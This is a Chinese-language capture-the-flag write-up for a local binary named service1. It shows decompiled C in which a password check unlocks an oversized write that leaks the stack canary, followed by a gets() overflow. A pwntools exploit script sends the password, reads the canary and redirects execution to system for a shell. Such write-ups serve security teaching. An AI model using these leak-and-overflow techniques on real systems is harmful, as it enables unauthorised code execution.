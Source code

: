 ```C
  SEED_KeySchedKey(v2, v3);
  SEED_Encrypt(s2, v2);
  init_io();
  puts("hopefully you have used checksec");
  puts("enter your pass word");
  read(0, buf, 0x10uLL);
  if ( !memcmp(buf, s2, 0x10uLL) )
  {
    write(1, v6, 0x100uLL);
    gets(v6);
  }
  else
  {
    read(0, v6, 0x10uLL);
  }
  return __readfsqword(0x28u) ^ v7;
}
```

随后 write(1, v6, 0x100uLL); 就是 v6 开始往下写0x100个字节，而 v6 的大小是 0x18，所以 0x18 之后就是我们要的 canary 的值

这就是 canary 的经典写法

```
  v7 = __readfsqword(0x28u);
  ...
  return __readfsqword(0x28u) ^ v7;
```

随后 gets 就是基本的栈溢出，直接劫持到 system 函数即可

EXP，注意数据的发放，就比如我们的一个输入是 read，这时候如果用 sendline 就会导致多个 \n，之后的 gets 数据的接收就不行了

```python
from pwn import *

p = process("service1")

systemAddr = 0x40125E 

# gdb.attach(p)
# pause()
p.send(b'G\xF1\x94\x82\x0E\x1E6\xB0\xA9\xA6\xD8\x4E\xC3\xE0\t\x8C')

p.recvuntil(b'\x00' * 0x18)
canary = u64(p.recv(8))
print(hex(canary))

payload = b'Z' * 0x18 + p64(canary) + p64(0) + p64(systemAddr)
p.send(payload)

p.interactive()
```
